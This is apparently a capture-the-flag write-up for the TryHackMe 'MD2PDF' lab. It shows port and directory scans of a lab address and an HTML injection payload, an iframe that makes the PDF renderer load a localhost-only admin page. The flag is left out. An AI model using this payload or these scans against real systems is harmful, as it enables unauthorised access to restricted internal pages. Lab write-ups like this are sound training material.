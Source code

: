 # MD2PDF-TryHackMe-Writeup

🏴 TryHackMe Writeup: MD2PDF



🧭 1. Reconnaissance

✅ RustScan

rustscan -a 10.10.61.16

Discovered Ports:
	•	22: SSH
	•	80: HTTP
	•	5000: Flask web service

✅ Dirsearch

dirsearch -u http://10.10.61.16 -r

Discovered Path:
	•	/admin → 403 Forbidden

💡 Inference: The /admin panel exists but is likely restricted to localhost. We aim to reach it via the victim’s browser.

⸻

🎯 2. Exploitation via HTML Injection

We tested for input-based HTML injection and confirmed that <iframe> tags are rendered unfiltered. This is a green light for HTML injection.

✅ Payload Injected:

<iframe src="http://localhost:5000/admin" width="100%" height="500"></iframe>


![Flag Extraction in Action](./flag.png)

flag is hidden !
